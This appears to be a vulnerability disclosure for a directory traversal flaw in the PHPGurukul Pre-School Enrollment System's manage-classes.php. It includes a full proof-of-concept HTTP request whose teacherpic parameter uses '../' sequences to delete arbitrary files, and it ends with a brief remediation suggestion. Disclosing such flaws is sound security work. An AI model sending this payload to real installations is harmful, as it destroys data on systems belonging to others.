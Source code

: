 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-2(manage-classes.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with teacherpic in the manage-classes.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250423150403.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the manage-classes.php page, manage-classes-delete
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/3.png)
  
   Intercept the data packet and find the manage-classes.php?action=delete data packet. No problem parameter teacherpic was found.
   
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/4.png)

   Change the tpic parameter in the data packet to the problematic parameter teacherpic 
   Transformed into attack payload  

    GET /Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php?action=delete&&cid=6&&teacherpic=../../../../bbb.txt HTTP/1.1
    Host: localhost
    Sec-Fetch-Site: same-origin
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-Mode: navigate
    Accept-Encoding: gzip, deflate, br, zstd
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    Accept-Language: zh-CN,zh;q=0.9
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/manage-classes.php
    Sec-Fetch-Dest: document
    sec-ch-ua-mobile: ?0
    sec-ch-ua-platform: "Windows"

   Create bbb.txt test file in  D:\phpstudy_pro\WWW
       ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/微信截图_20250423153628.png)   

   Send payload,
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/6.png)
   bbb.txt file has been deleted   
   ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/5.png)    
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
